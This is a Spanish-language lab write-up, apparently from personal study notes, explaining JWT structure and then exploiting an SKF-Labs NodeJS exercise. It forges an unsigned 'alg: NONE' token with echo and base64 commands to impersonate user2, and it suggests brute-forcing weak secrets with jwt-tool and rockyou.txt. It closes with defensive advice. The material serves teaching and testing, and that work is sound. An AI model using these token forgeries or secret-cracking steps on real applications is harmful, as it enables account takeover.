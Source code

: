 
# 🔐 JWT – Enumeración y Explotación

## 📚 Parte Teórica

### ¿Qué es un JWT?

Un **JSON Web Token (JWT)** es un estándar abierto (RFC 7519) que define una forma compacta y segura de transmitir información entre partes como un objeto JSON. Comúnmente se utiliza para **autenticación y autorización**.

Un JWT tiene **tres partes**:

1. **Header (cabecera)**  
   Contiene el tipo de token y el algoritmo de firma:
```json
   {
     "alg": "HS256",
     "typ": "JWT"
   }
```

2. **Payload (carga útil)**  
    Contiene los datos que se quieren transmitir. Por ejemplo:
    
    ```json
    {
      "id": 1,
      "iat": 1753132482,
      "exp": 1753136082
    }
    ```
    
    - `iat`: Fecha de emisión del token (issued at).
        
    - `exp`: Fecha de expiración del token.
        
3. **Signature (firma)**  
    Se usa para validar que el token no ha sido modificado. Se genera así:
    
    ```
    HMACSHA256(
      base64UrlEncode(header) + "." + base64UrlEncode(payload),
      secret
    )
    ```
    
    La firma **protege la integridad del token**, pero **no cifra el contenido**.
    

---

## ⚙️ Parte Práctica

### 🧪 Laboratorio 1 – JWT Inseguro con Algoritmo `none`

Usaremos el repositorio [SKF-Labs](https://github.com/blabla), específicamente el laboratorio de NodeJS sobre JWT.

#### ▶️ Preparación del entorno

1. Clonamos el repositorio y navegamos al directorio:
    
    ```sh
    cd nodeJs/JWT-null
    npm install
    npm start
    ```
    
    El servidor escuchará en el puerto `5000`.
    
2. En el sitio veremos un formulario de login. Tenemos dos usuarios:
    
    - `user` / `user`
        
    - `user2` / (no tenemos su contraseña)
        

#### 🧩 Objetivo

Loguearnos como `user2`, manipulando la cookie JWT que obtenemos al iniciar sesión como `user`.

#### 🔍 Visualización del token

![[Pasted image 20250721180358.png]]

Al iniciar sesión con `user:user`, recibimos este token JWT:

```json
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwiaWF0IjoxNzUzMTMyNDgyLCJleHAiOjE3NTMxMzYwODJ9.HWT1g1bVzwyvuqbvYXc-cgsCQEyMThyt59GPmo9vHuQ
```

Si lo llevamos a [jwt.io](https://jwt.io/), obtenemos:

```json
# Header
{
  "alg": "HS256",
  "typ": "JWT"
}

# Payload
{
  "id": 1,
  "iat": 1753132482,
  "exp": 1753136082
}
```

La firma no puede ser verificada porque no conocemos el `secret`.

---

### 🔧 Explotación: Cambiando el Algoritmo a `none`

Algunas implementaciones incorrectas de JWT **permiten usar el algoritmo `none`**, lo que desactiva la verificación de la firma. Vamos a explotarlo.

#### 📦 Construcción manual del JWT

1. Codificamos el header:
    
    ```sh
    echo -n '{"alg": "NONE","typ": "JWT"}' | base64
    ```
    
2. Codificamos el payload para suplantar a `user2` (id=2):
    
    ```sh
    echo -n '{"id": 2, "iat": 1753132482,"exp": 1753136082}' | base64
    ```
    

> ⚠️ Usamos `-n` en `echo` para evitar saltos de línea (`\n`), que romperían el token.

3. Combinamos ambas partes así:
    
    ```json
    eyJhbGciOiAiTk9ORSIsInR5cCI6ICJKV1QifQ.eyJpZCI6IDIsICJpYXQiOiAxNzUzMTMyNDgyLCJleHAiOiAxNzUzMTM2MDgyfQ.
    ```
    

> ❗ Si alguno de los fragmentos termina en `=` o `==`, **eliminalos**, ya que rompen la validación.

4. Pegamos ese JWT en el `localStorage` como cookie del sitio.
    

#### ✅ Resultado

La aplicación, al no verificar correctamente la firma (por usar `alg: none`), nos autentica como `user2`.

---

### 💥 Explotación con Fuerza Bruta

En algunos casos, el algoritmo de firma no está desactivado, pero el **`secret` es débil o predecible**. Por ejemplo:

![[Pasted image 20250721192350.png]]

#### 🔐 Ataques posibles:

- Usar herramientas como `jwt-cracker`, `jwt-tool`, o diccionarios (`rockyou.txt`) para hacer fuerza bruta y descubrir el secreto.
    
- Una vez obtenido el `secret`, podemos modificar el payload y regenerar la firma para crear un JWT válido y manipulado.
    

---

## 🧠 Conclusiones

- JWT es una tecnología poderosa, pero **una mala implementación puede dejar vulnerabilidades críticas**.
    
- Nunca se debe permitir el uso del algoritmo `none` en entornos productivos.
    
- Se debe usar una clave secreta fuerte, aleatoria y con suficiente longitud.
    
- Verificar siempre la firma del JWT antes de confiar en su contenido.
    

---

## 🛠 Herramientas útiles

- [jwt.io](https://jwt.io/) – Para decodificar y testear JWTs.
    
- [`jwt-tool`](https://github.com/ticarpi/jwt_tool) – Herramienta para manipular y atacar JWTs.
    
- [`Burp Suite`](https://portswigger.net/burp) – Excelente para interceptar y modificar tokens.
    


---
[[OWASP]]
